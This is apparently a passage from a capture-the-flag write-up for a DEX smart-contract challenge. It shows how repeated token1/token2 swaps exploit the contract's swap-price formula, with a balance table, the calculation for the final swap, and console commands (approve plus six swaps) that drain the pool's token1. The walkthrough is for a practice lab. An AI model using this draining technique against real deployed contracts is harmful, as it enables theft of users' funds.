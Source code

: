     we originally had token1 10 token2 10 and the total was 20, but now we have 24. 
    We can attack from swap agin and agin 


Let's start the calculations
```
|-------------------------------------------------------|
| time |     balance Dex      |       balance User      |
|      |  token1  |  token2   |   token1   |  token2    |
|-------------------------------------------------------|
| 0        100         100         10           10      |
| 1        110          90          0           20      |
| 2         86         110         24            0      |
| 3        110          80          0           30      |
| 4         69         110         41            0      |
| 5        110          45          0           65      |
|-------------------------------------------------------|
```

Why did I stop here?

Because if you try to calculate When selling all token2 to buy token1, 
```
    token1 = (65 * 110 )/45
    token1 = 158
```
which token1 balnce contract dex is not enough and will error so we need to find exact amount

now balnce token1 in contact dex have 110 we need all token1 

So we calculate the reverse equation
``` 
    token1 = 110   amount = ?   balance contract Dex tokenBuy = 110   balance contract Dex tokenSell = 45

    token1 = (amount * balance contract Dex tokenBuy )/ balance contract Dex tokenSell

                                                 |   
                                                 |
                                                 |
                                                            
    110    =  ( amount * 110 ) / 45
    amount =  45
```
The last swap with 45 token2  will give us 110 token1 and  balance token1 in the contract dex will be 0  Complete the attack.


#### Open Developer Tools (F12)

- (1) type  `await contract.approve(contract.address,toWei('1000'))`                     and confirm transaction
- (2) type  `await contract.swap(await contract.token1(), await contract.token2(), 10)`  and confirm transaction
- (2) type  `await contract.swap(await contract.token2(), await contract.token1(), 20)`  and confirm transaction
- (3) type  `await contract.swap(await contract.token1(), await contract.token2(), 24)`  and confirm transaction
- (4) type  `await contract.swap(await contract.token2(), await contract.token1(), 30)`  and confirm transaction
- (5) type  `await contract.swap(await contract.token1(), await contract.token2(), 41)`  and confirm transaction
- (6) type  `await contract.swap(await contract.token2(), await contract.token1(), 45)`  and confirm transaction
